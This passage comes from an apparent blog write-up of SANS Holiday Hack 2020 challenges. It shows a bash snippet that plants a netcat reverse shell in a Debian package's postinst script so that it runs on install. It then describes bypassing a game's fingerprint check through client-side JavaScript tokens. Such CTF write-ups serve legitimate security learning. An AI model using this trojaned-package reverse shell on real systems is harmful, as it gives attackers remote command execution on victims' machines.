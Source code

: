```bash
mv ./postinst work/DEBIAN/postinst

US=$(ip a | grep inet | grep -v "127.0.0.1" | cut -d " " -f6 | cut -d "/" -f1)

cat <<EOT >> work/DEBIAN/postinst
nc $US 4444 -e /bin/bash &
EOT

dpkg-deb --build $TPATH/work/
```

This simply embedded a classic `netcat` reverse shell in the `.deb` file, which  then served using the python HTTP server. One thing that cost me a *lot* of time was the fact that my fancy IP extraction one-liner was running `ip -c`, which enabled color output. This is great when you are the one that wants to read it, but not so much for computers. See the thing is that output resulted in an ANSI encoded string which when it got to the other side, meant that it broke the script and nothing happened. Yay :(

Anyhoo, executing the full attack looked something like this:

{{< figure src="/images/holidayhack-20/arp_shenanigans_pwnd.png" title="arp shenanigans shell from 10.6.6.35" >}}

From here we could just `cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` and find that `Tanta Kringle` recused herself.

### 10 - defeat fingerprint sensor

> Bypass the Santavator fingerprint sensor. Enter Santa's office without Santa's fingerprint.

This challenge was the first time I started fiddling with how the Santavator was working under the hood.

{{< figure src="/images/holidayhack-20/santavator_santas_office.png" title="santavator fingerprint reader" >}}

When activating the fingerprint reader as Santa, you are teleported straight to Santa's Office. However, as your normal avatar, well, nothing happens when you click on it. So, the next logical thing was to pop open the browser console and get a feel for what drives the elevator.

{{< figure src="/images/holidayhack-20/santavator_fingerprint_sources.png" title="santavator fingerprint reader javascript sources" >}}

I found some JavaScript in `app.js`, and read all of it. When I wanted to see what the current values were that were stored in variables, I'd switch to the console, select the elevator iframe and tinker away. One specific variable caught my attention after understanding the sourc a little better.

{{< figure src="/images/holidayhack-20/santavator_fingerprint_tokens.png" title="santavator fingerprint reader tokens" >}}

If you are playing as Santa though, that array looks a little different.

```javascript
["redlight", "workshop-button", "marble", "nut", "candycane", "elevator-key", "nut2", "ball", "yellowlight", "greenlight", "besanta"]
```
